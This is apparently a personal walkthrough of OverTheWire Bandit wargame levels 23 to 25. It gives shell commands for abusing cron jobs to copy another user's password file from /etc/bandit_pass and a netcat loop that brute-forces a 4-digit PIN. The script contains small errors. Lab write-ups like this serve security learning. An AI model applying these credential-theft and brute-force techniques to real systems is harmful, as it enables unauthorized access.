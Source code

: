 	cd /etc/cron.d
 	ls -la
  	cat cronjob_bandit23
   	myname=bandit23
	$(echo I am user $myname | md5sum | cut -d ' ' -f 1)
	cat /tmp/8ca319486bfbbc3663ea0fbe81326349

## Level 23 → Level 24
### A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

	cd /etc/cron.d
	ls -la
	cat cronjob_bandit24
	cd /tmp
	mkdir shell
	nano bash.sh
		!/bin/bash
		cat /etc/bandit_pass/bandit24 > /tmp/sh/pass.txt
  	touch pass.txt
	chmod 777 bash.sh
	chmod 777 pass.txt
	cp bash.sh /var/spool/bandit24/foo
	Wait 1 minute 
	cat pass.txt

## Level 24 → Level 25
### A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing. You do not need to create new connections each time

	cd /tmp
	mkdir test 
	cd test
	nano pass.sh
		#!/bin/bash
		b24_pass=PASSWORD
		for i in {1111..9999};do
        	echo "$b24_pass $i"
		done | nc localhost 30002
	chmod 777 pass.sh
	./pass.sh
